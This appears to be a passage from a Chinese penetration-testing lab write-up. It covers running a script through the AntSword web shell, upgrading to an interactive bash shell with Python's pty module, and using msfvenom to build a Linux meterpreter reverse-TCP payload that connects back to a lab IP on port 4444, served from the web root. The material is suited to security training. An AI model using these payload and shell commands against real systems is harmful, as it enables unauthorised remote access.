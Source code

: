 蚁剑运行python文件

```
python 1.py
```

![image-20220318144146483](靶场练习.assets/image-20220318144146483.png)

进行提权的时候可以切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

或用

```
whoami #查看当前用户权限
```



## 3-4 msf_linux反弹shell

msfvenom生成木马

```
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.81.131 LPORT=4444 -b "\\x00" -i 10 -f elf -o  /var/www/html/linux_shell
```

![image-20220318145204666](靶场练习.assets/image-20220318145204666.png)
